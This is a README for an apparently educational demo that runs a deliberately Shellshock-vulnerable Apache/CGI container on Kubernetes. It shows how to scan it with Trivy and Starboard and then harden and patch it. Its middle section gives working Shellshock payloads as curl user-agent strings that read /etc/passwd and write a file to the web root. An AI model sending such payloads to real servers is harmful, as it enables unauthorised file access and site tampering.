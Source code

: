 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

This demo uses three different versions

* shellshockable:0.1.0 - runs as root and includes shellshock vulnerability
* shellshockable:0.2.0 - runs as non-root but still has the vulnerability
* shellshockable:0.3.0 - runs as non-root, without shellshock vulnerability

### Build and push to Docker Hub

Skip this step if you want to use my version of the images already pushed to Docker Hub.

```sh
make push
```

> TODO: environment variable for Docker Hub account / registry so it doesn't have to use lizrice (needs changes to makefile and Helm chart)

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

> Note: the Dockerfile installs the vulnerable package. A vulnerability scanner wouldn't find the vulnerability if you build the vulnerable version of bash from source.

### Install on Kubernetes with Helm

```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

### Port-forwarding

```sh
# Run this in the background or in another terminal window
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

> TODO: use an ingress so you don't have to re-do the port forwarding every time

> TODO: could also set up a fake domain in /etc/hosts on the host to pretend that this is on a "real" web site

### Regular query

```sh
curl localhost:8081/cgi-bin/shockme.cgi
```

> TODO: consider renaming shockme.cgi so it's more "normal"

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

You can put the user agent string into a variable to make this easier to type live

```sh
export SHOCK="() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd"
curl -A $SHOCK localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Test bash for Shellshock vulnerability

Get into the vulnerable container:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that its version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```

You'll see the word "vulnerable" only if shellshock is present.

## Starboard

Install [starboard](https://github.com/aquasecurity/starboard) - for example `kubectl krew install starboard`
and  `kubectl starboard init` to create the CRDs.

```sh
kubectl starboard find vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard get vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard polaris
```

Run `octant` to view them there. You should see vulnerabilities (including HIGH severity shellshock) and config issues from Polaris (including failing the runAsNonRoot test).

## Run as non-root

```sh
helm upgrade -f 0.2.0.yaml shell-chart shellshockable
```

This container uses a high numbered port so it can run as nonRoot

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run polaris and check the test for runAsNonRoot is now passing.

> Note: This config doesn't set readOnlyRootFileSystem, because Apache wants to write files.

## Upgrade to non-vulnerable version

```sh
helm upgrade -f 0.3.0.yaml shell-chart shellshockable
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

> Note: for now you need to delete old vulnerability reports otherwise the Octant plugin may not pick up the latest: `k delete vulns --all` will do it

Re-run find vulnerabilities and check this is no longer an issue
